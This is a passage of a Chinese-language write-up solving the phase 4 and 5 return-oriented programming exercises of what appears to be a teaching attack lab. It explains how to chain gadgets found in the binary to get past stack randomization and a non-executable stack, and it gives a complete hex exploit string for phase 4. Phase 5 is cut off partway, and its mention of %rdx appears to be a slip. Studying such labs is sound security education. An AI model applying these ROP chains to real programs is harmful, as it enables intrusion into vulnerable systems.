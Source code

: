 四、五题是 Return-Oriented Programming ，这两题更难，因为引入了栈随机化和限制了可执行代码区域：

> - It uses randomization so that the stack positions differ from one run to another. This makes it impos-
sible to determine where your injected code will be located.
> - It  marks  the  section  of  memory  holding  the  stack  as  nonexecutable,  so  even  if  you  could  set  the program counter to the start of your injected code, the program would fail with a segmentation fault.

栈随机化使得栈上的地址不确定，无法直接跳转到栈上的指定地址；可执行代码区域是限制的，使得注入栈上的代码无法执行。
所以这里要引入新的攻击方式，就是 ROP 攻击，ROP 的具体讲解可以参考指导文档，ROP 的攻击思路就是，寻找、利用函数自带的一些 gadgets ，使之构成一个攻击链，这样利用程序自身的函数片段，就能绕过新的安全限制。

## 第四题

这题要求在新的保护下重复第二题的结果，将 `cookie` 值传入 `%rdi` ，这里和第二题一样使得栈溢出，然后将返回地址设为 `gadgets` 攻击链的起始地址。攻击链可以这样构造，观察代码发现：

```
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq
```

查阅文档， `58 90` 即是 `popq %rax` ，`90` 是 `nop` ，可以直接忽视，这段代码地址是 `0x4019ab` ，它将栈上的值存入了寄存器，接着发现：

```
00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:       c3
```

查阅文档， `48 89 c7` 就是 `movq %rax,%rdi` ，就将栈上的值存入了 `%rdi` ，因此将 `cookie` 值存入栈中，就可以传值，这段代码地址是 `0x4019a2` 。
因此输入字符串先是一段填充的 40 字节，然后是跳转地址，设为 pop 的地址 `0x4019ab` ，接着存入 `cookie` 值（就是将要 pop 的那个值，注意应存入 64 位值），然后是 mov 的地址 `0x4019a2` ，最后跳转到 `touch2` ，这样一个完整的 ROP 攻击链就形成了，一个可行的答案就是：

```
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

## 第五题

与上题类似，要求重复第三题的结果，要求将 `cookie` 字符串的地址存入 `%rdx` ，考虑到栈随机化，无法直接得到地址。注意到这里 `48 89 e0 90` 是 `movq %rsp,%rax` ，将栈顶的地址存在了 `%rax` ，可以利用这一点来传地址。

```
0000000000401aab <setval_350>:
  401aab:       c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:       c3                      retq
```
